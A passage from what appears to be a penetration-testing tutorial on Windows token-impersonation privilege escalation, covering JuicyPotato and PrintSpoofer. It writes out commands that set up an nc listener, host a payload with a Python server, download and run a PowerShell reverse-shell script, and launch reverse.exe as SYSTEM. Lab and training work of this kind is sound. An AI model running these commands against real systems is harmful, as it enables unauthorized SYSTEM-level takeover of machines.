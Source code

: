 2. Host the file: `python3 http.server` .
3. Setup listener, `nc -nvlp 9002` .
4. On the victim, run the cmd.

{% code overflow="wrap" lineNumbers="true" %}
```powershell
# Note: the -l can be any random port of your choice.
.\JuicyPotato.exe -t * -p inv.bat -l 8090

# this should execute the "inv.bat" script, which inturns download "Invoke-PowerShellTcp.ps1" from our server, which automatically calls the "Invoke-PowerShellTcp" function, which gives us a shell as "NT Authority"
```
{% endcode %}

<figure><img src=".gitbook/assets/image (72).png" alt=""><figcaption><p>full attack</p></figcaption></figure>

### 15 - **Token Impersonation — PrintSpoofer**

The goal of [PrintSpoofer](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/) and RoguePotato is same to elevate privileges using same technique “SeImpersonatePrivilege”.&#x20;

> Exploit tools of the Potato family are all based on the same idea: relaying a network authentication from a loopback TCP endpoint to an NTLM negotiator. To do so, they trick the NT AUTHORITY\SYSTEM account into connecting and authenticating to an RPC server they control by leveraging some peculiarities of the IStorage COM interface. This blog explains more technically than I ever could. [Read](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)

So, this exploit to work, we need local service or network service access and with “SeImpersonatePrivilege” or “SeAssignPrimaryTokenPrivilege” enabled.

Just like in Section 14, we need "Local Service" access 1st.&#x20;

Start another listener on Kali, Now, in the "local service" reverse shell you triggered, run the PrintSpoofer exploit to trigger a second reverse shell running with SYSTEM privileges (update the IP address with your Kali IP accordingly):

`C:\PrivEsc\PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i`
